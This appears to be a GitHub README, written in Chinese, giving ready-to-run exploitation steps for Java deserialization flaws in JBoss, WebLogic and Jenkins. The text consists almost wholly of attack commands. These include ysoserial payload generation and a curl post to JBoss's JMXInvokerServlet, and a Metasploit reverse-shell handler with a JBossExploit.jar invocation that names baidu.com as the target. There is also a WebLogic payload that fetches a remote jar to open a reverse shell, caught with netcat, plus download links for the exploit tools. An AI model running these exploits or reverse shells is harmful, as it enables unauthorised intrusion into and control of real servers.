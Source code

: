## JavaDeserialization


###jboss：

#####一

```
▶ java -jar ysoserial-0.0.2-all.jar
Y SO SERIAL?  
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'  
    Available payload types:  
        CommonsCollections1 #jboss用這個我測試過一次可行  
        CommonsCollections2 #剩下的沒測試過  
        Groovy1  
        Spring1  

▶ java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'command' >/tmp/payload
▶ curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```

[ysoserial-0.0.2-all.jar](https://github.com/frohoff/ysoserial/releases)  

####二  

session 1:

```
▶ssh kali
root@Kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/shell/reverse_tcp
msf exploit(handler) > set LHOST 123.123.123.123
msf exploit(handler) > set LPORT 999
msf exploit(handler) > exploit
```

session 2:

```
▶ssh kali
root@Kali:~# java -jar JBossExploit.jar -lhost 123.123.123.123 -lport 999 -rhost baidu.com -rport 80 -srvport 4040
```

[JBossExploit](https://github.com/njfox/Java-Deserialization-Exploit)  

###weblogic：  

```
▶ javac -classpath commons-collections-3.2.jar Main.java
▶ java Main.class
```

Main.java的作用是生成一個從url下載jar包的payload，jar包執行反彈shell。  
已打包為weblogic.jar，iswin.jar下載地址為原作者提供的地址，有需要重新編譯源碼替換class就好。   
~~替換成[github](https://github.com/hackzx/JavaDeserialization/raw/master/iswin.jar)的就好。~~

```
usage:  
  java -jar weblogic.jar [ip/domain] [port] [out_payload_file]

```

```
▶ java -jar weblogic.jar [ReverseIP] 888 /tmp/payload
▶ python weblogic.py [TargetIP] 7001 /tmp/payload
▶ ssh kali
root@Kali:~# nc -vv -l -p 888
```

[weblogic.jar](https://github.com/hackzx/JavaDeserialization/raw/master/weblogic.jar)  
[commons-collections-3.2.jar](http://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.2.zip "Main.jar依賴包")  
[Main.java](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "TransformedMap的实现方式")  
[weblogic.py](https://github.com/schinkelg/JavaUnserializeExploits/blob/master/weblogic.py "自動添加包頭的修正腳本")

###jenkins

https://github.com/CaledoniaProject/jenkins-cli-exploit  


--

更多更多的鏈接：  
http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/  
http://www.secpulse.com/archives/40420.html  
http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/  
https://github.com/foxglovesec/JavaUnserializeExploits  
https://github.com/njfox/Java-Deserialization-Exploit  
http://zone.wooyun.org/content/23905  